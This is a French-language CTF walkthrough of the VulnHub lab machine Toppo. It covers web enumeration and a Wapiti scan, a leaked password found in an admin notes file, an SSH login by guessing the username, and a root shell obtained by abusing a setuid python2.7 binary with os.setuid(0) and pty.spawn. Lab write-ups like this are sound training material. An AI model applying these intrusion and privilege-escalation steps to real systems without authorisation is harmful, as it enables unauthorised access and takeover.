 ```yaml
---
title: "Solution du CTF Toppo de VulnHub"
tags: [CTF, VulnHub]
---
```


[Toppo](https://vulnhub.com/entry/toppo-1,245/) est un petit CTF créé par *Hadi Mene* et disponible sur *VulnHub*.

On trouve un port 22 et un port 80. Sur le site web, il n'y a réellement qu'un formulaire de contact. On peut avoir une version cURL de la requête via les dev-tools du navigateur :

```bash
curl 'http://192.168.56.172/mail/contact_me.php' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Origin: http://192.168.56.172' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://192.168.56.172/contact.html' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36' \
  -H 'X-Requested-With: XMLHttpRequest' \
  --data-raw 'name=zozo&phone=0606060606&email=zozo%40zz.com&message=yop+yop'
```

On peut utiliser Wapiti pour attaquer cette URL :

```bash
wapiti -u http://192.168.56.172/mail/contact_me.php --data 'name=zozo&phone=0606060606&email=zozo%40zz.com&message=yop+yop' --scope page
```

Cela n'a rien donné.

Via une énumération, on trouve un dossier `/admin/` avec listing activé. Il y a dedans un fichier `notes.txt` avec le contenu suivant :

> Note to myself :
> I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .

Pas de nom d'utilisateur ?

J'ai rejeté un œil au formulaire de contact et j'ai remarqué ça dans le code HTML :

```html
          <!-- Contact Form - Enter your email address on line 19 of the mail/contact_me.php file to make this form work. -->
          <!-- WARNING: Some web hosts do not allow emails to be sent through forms to common mail hosts like Gmail or Yahoo. It's recommended that you use a private domain email address! -->
          <!-- To use the contact form, your site must be on a live web host with PHP! The form will not work locally! -->
```

En recherchant cette histoire de ligne 19 je suis tombé sur ce projet Github où on retrouve aussi le PHP derrière le formulaire :

[filabs/contact_me.php at master · ficonsulting/filabs · GitHub](https://github.com/ficonsulting/filabs/blob/master/mail/contact_me.php)

Il n'y a rien qui semble vulnérable.

Finalement en regardant à nouveau le mot de passe je me dis que l'utilisateur pourrait bien être `ted` (les trois lettres au milieu) et effectivement je parviens à me connecter via SSH.

Une énumération des binaires setuid remonte quelques programmes inhabituels :

```console
ted@Toppo:/var/www/html$ find / -perm -u+s -ls 2> /dev/null 
  3795   96 -rwsr-xr-x   1 root     root        96760 Aug 13  2014 /sbin/mount.nfs
144123 1060 -rwsr-xr-x   1 root     root      1085300 Feb 10  2018 /usr/sbin/exim4
138907   12 -rwsr-xr-x   1 root     root         9468 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
144166  356 -rwsr-xr--   1 root     messagebus   362672 Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
144700  552 -rwsr-xr-x   1 root     root       562536 Nov 19  2017 /usr/lib/openssh/ssh-keysign
130158   80 -rwsr-xr-x   1 root     root        78072 May 17  2017 /usr/bin/gpasswd
134258   40 -rwsr-xr-x   1 root     root        38740 May 17  2017 /usr/bin/newgrp
141007 3800 -rwsrwxrwx   1 root     root      3889608 Aug 13  2016 /usr/bin/python2.7
130156   44 -rwsr-xr-x   1 root     root        43576 May 17  2017 /usr/bin/chsh
143948   52 -rwsr-sr-x   1 daemon   daemon      50644 Sep 30  2014 /usr/bin/at
134156  108 -rwsr-xr-x   1 root     root       106908 Mar 23  2012 /usr/bin/mawk
130155   52 -rwsr-xr-x   1 root     root        52344 May 17  2017 /usr/bin/chfn
144729   96 -rwsr-sr-x   1 root     mail        96192 Nov 18  2017 /usr/bin/procmail
130159   52 -rwsr-xr-x   1 root     root        53112 May 17  2017 /usr/bin/passwd
   696   40 -rwsr-xr-x   1 root     root        38868 May 17  2017 /bin/su
  1698   28 -rwsr-xr-x   1 root     root        26344 Mar 29  2015 /bin/umount
  1697   36 -rwsr-xr-x   1 root     root        34684 Mar 29  2015 /bin/mount
```

On va ici utiliser Python pour augmenter nos privilèges :

```console
ted@Toppo:/var/www/html$ /usr/bin/python2.7
Python 2.7.9 (default, Aug 13 2016, 16:41:35) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.setgid(0)
>>> import pty
>>> pty.spawn("/bin/bash")
root@Toppo:/var/www/html# cd /root
root@Toppo:/root# ls
flag.txt
root@Toppo:/root# cat flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              

Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```


